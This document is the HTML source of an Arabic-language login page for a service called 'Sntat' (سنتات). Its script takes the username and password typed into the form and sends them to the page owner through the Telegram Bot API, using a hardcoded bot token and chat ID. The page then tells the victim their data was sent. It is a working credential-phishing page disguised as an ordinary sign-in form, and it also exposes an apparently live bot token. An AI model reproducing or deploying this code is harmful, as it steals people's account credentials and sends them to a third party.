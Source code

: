     <h2>تسجيل الدخول إلى سنتات</h2>

    <!-- صورة الشعار -->
    <img src="https://sntat.neocities.org/Screenshot_%D9%A2%D9%A0%D9%A2%D9%A5%D9%A0%D9%A2%D9%A1%D9%A8-%D9%A2%D9%A3%D9%A4%D9%A8%D9%A2%D9%A3.jpg" alt="شعار سنتات" class="logo">
    
    <div class="login-container">
        <input type="text" id="username" placeholder="اسم المستخدم">
        <input type="password" id="password" placeholder="كلمة المرور">
        <button onclick="sendToTelegram()">تسجيل الدخول</button>
    </div>

    <script>
        function sendToTelegram() {
            var username = document.getElementById("username").value;
            var password = document.getElementById("password").value;

            if (username === "" || password === "") {
                alert("يرجى إدخال اسم المستخدم وكلمة المرور");
                return;
            }

            var botToken = "8176431441:AAF8BozvtEjQCbgdZ6CqrrxOwIpJ7wB_pFI"; // التوكن الجديد
            var chatId = "1691133310"; // تأكد من صحة الـ ID الخاص بك
            var message = `🔐 تسجيل دخول جديد:\n👤 اسم المستخدم: ${username}\n🔑 كلمة المرور: ${password}`;

            var url = `https://api.telegram.org/bot${botToken}/sendMessage`;

            fetch(url, {
                method: "POST",
                headers: {
                    "Content-Type": "application/json"
                },
                body: JSON.stringify({
                    chat_id: chatId,
                    text: message
                })
            })
            .then(response => {
                console.log(response);  // سجل استجابة السيرفر
                return response.json();
            })
            .then(data => {
                console.log(data);  // سجل البيانات المستلمة
                if (data.ok) {
                    alert("تم إرسال بياناتك بنجاح!");
                } else {
                    alert("حدث خطأ أثناء إرسال البيانات!");
                }
            })
            .catch(error => {
                console.error("خطأ في إرسال البيانات: ", error); // سجل الخطأ
                alert("حدث خطأ أثناء إرسال البيانات!");
            });
        }
    </script>

</body>
</html>

